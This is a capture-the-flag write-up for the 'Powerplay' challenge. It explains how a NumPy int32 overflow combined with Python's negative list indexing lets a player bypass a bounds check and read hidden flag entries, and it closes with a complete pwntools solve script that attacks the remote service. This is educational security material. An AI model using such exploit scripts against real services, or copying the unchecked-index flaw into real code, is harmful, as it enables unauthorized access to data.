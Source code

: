 ﻿# Powerplay

## Description
Pump yourself up with power  to get an inspirational quote.

## Walkthrough
In this challenge we are given an IP and port to connect to a service and the source code for the service being run.

By checking the service source code we can see that it's a simple game to retrieve inspirational quotes:
```python
import numpy as np
from secret import flag, quotes

prizes = quotes + ['missingno'] * 4 + [flag] * 24

if __name__ == '__main__':
	print('Welcome to our playground for powerful people where you can pump yourself up and get awesome prizes!\n')
	player_count = int(input('How many players participate?\n'))
	power = np.zeros(player_count, dtype = np.int32)
	for i in range(player_count):
		power[i] = int(input(f'Player {i}, how strong are you right now?\n'))
	ready = False

	while True:
		print('What do you want to do?\n1) pump up\n2) cash in')
		option = int(input())
		if option == 1:
			power = power**2
			ready = True
		elif option == 2:
			if not ready:
				raise Exception('Nope, too weak')
			for i in range(player_count):
				if power[i] < len(quotes):
					print(f'You got an inspiration: {prizes[power[i]]}')
				exit()
		else:
			raise Exception('What?')
```

The game when connected to, firstly asks how many players we want to play, this is later then used to initialize an array filled with zeros through the help of the python library [NumPy](https://numpy.org/). In this initialization the type of values allowed inside the array are of type 32-bit integers, this can be seen in the following snippet:
```python
player_count = int(input('How many players participate?\n'))
power = np.zeros(player_count, dtype = np.int32)
```

After retrieving the number of players the service requests the user to set each base power level for each player, while doing this the service sets the array values for each player:
```python
for i in range(player_count):
	power[i] = int(input(f'Player {i}, how strong are you right now?\n'))
```

If we request that 3 players are used and that the players base power levels are 1,2,3 respectively then the power array will be as follows: `[1,2,3]`

After setting the power levels the service initiates a control variable named `ready`, this one is used so that the user must at least choose the option `pump up` at least one time before being able to retrieve a quote when choosing the `cash in` option. 
```python
ready = False
...
		elif option == 2:
			if not ready:
				raise Exception('Nope, too weak')
```

If the user chooses to `pump` the players then all of their base levels are equal to their previous base level squared. This can be seen bellow:
```python
		if option == 1:
			power = power**2
			ready = True
``` 

The resulting power levels, with the previous example in mind, will be as follows: `[1,4,9]`

If the user want to retrieve the quotes then the option `cash in` is used, this option firstly checks if the user choose the option `pump up` at least one time and then for each player it check if their power level is bellow the number of quotes in the system. After this check it retrieves the quotes present inside of a `prizes` list. This list is previously initialized with the concatenation of a quotes list, 4 elements named `missingno` (this value is an easter egg to a popular Pokemon [glitch](https://www.nintendo.com/consumer/systems/gameboy/trouble_specificgame.jsp#missingno)) and finally 24 elements that are the flag we are looking for. To retrieve the quotes the service uses the current player base power level as the index for the prizes and due to the previous check of the players power level being bellow the number of quotes in the system, the intended behavior is only retrieving quotes.
```python
prizes = quotes + ['missingno'] * 4 + [flag] * 24
...
		elif option == 2:
			if not ready:
				raise Exception('Nope, too weak')
			for i in range(player_count):
				if power[i] < len(quotes):
					print(f'You got an inspiration: {prizes[power[i]]}')
				exit()
```

Although the flag values seem unreachable, the service as a flaw that allows us to retrieve them. While initializing the power array the data type used is 32-bit integers, this choice seems harmless but when an integer is big enough to be close to it's standard limit, in this case the 32 bit integer maximum is `2^31−1`, when incremented, the value will loop over and be set as the minimum value of that given standard, in this case `−2^31`, this problem is named [Integer Overflow](https://en.wikipedia.org/wiki/Integer_overflow). This bug causes a logic problem in the service, this is due to Python allowing negative indexes in list to [retrieve values from reversed list](https://www.geeksforgeeks.org/python-negative-index-of-element-in-list/), allowing therefore the retrieval of values besides quotes, even if the quotes size check is used (`power[i] < len(quotes)`).

To exploit this we can use only one player, after setting it's base value we should try to increment it until it's negative and then choose the option to retrieve the quote, if we want the value flag we should also be careful that only 24 flags are present in the `prizes` list, so we should try to overflow the integer no more than `-24`, to due this in a faster way we can just brute force locally and then with the correct player's base levels and number of `pump up`'s we can retrieve the flag remotely. This can be seen in the program bellow:
```python
from pwn import *
import numpy as np
context.log_level='critical'

# Remote Server
host = '<IP>'
port = <PORT>

# Helper function to interact with the process
def getFlag(base, pumps):
    # Step 0: Start the remote connection
    r = remote(host, port)

    # Step 1: Input the number of players (1)
    r.recvuntil(b'How many players participate?\n')
    r.sendline(b'1')  # We are simulating 1 player

    # Step 2: Set the initial power
    r.recvuntil(f'Player 0, how strong are you right now?\n'.encode())
    r.sendline(str(base).encode())

    # Step 3: Pump up the power 'pump' times by choosing the "pump up" option
    for pump in range(pumps):
        r.recvuntil(b'What do you want to do?\n1) pump up\n2) cash in')
        r.sendline(b'1')  # Option to pump up (square the power)

    # Step 4: Choose "cash in" to receive the prize
    r.recvuntil(b'What do you want to do?\n1) pump up\n2) cash in')
    r.sendline(b'2')  # Option to cash in (receive a prize)

    # Step 5: Receive the prize
    output = r.recvall()  # Receive the full output of the game

    # Step 6: Close the remote connection after we are done
    r.close()

    # Retrieve flag from quote
    flag = re.search(r"ENO\{.*?\}", output.decode()).group(0)
    return flag

def getBaseAndPumps():
    # Iterate over possible base values
    for base in range(-34710000, -99999999, -1):
        power = np.int32(base)
        for pump in range(2):
            power = np.int32(power ** 2)  
            if power < 0 and power > -24:
                return base, pump + 1 
    return None, None


if __name__ == '__main__':
    # Get base and pumps
    base, pumps = getBaseAndPumps()
    if base is None or pumps is None:
        print("[!] No valid base and pumps found.")
        exit()

    # Retrieve flag
    print(f'[i] Flag: {getFlag(base, pumps)}')
```
